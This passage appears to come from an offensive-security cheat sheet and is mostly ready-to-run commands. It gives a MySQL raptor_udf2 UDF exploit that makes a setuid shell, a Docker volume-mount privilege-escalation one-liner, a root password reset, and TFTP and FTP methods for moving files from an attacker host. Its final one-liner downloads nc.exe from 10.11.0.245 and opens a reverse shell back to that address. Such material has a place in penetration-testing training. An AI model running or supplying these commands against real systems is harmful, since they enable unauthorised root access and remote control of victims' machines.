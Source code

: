```bash
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

### Docker Privilege Escalation <a id="docker-privilege-esclation"></a>

```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting root Password <a id="resetting-root-password"></a>

```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine <a id="uploading-files-to-target-machine"></a>

#### TFTP <a id="tftp"></a>

```bash
# TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

​# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

#### FTP <a id="ftp"></a>

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

​# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt ftp -s:ftp-commands.txt​

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```
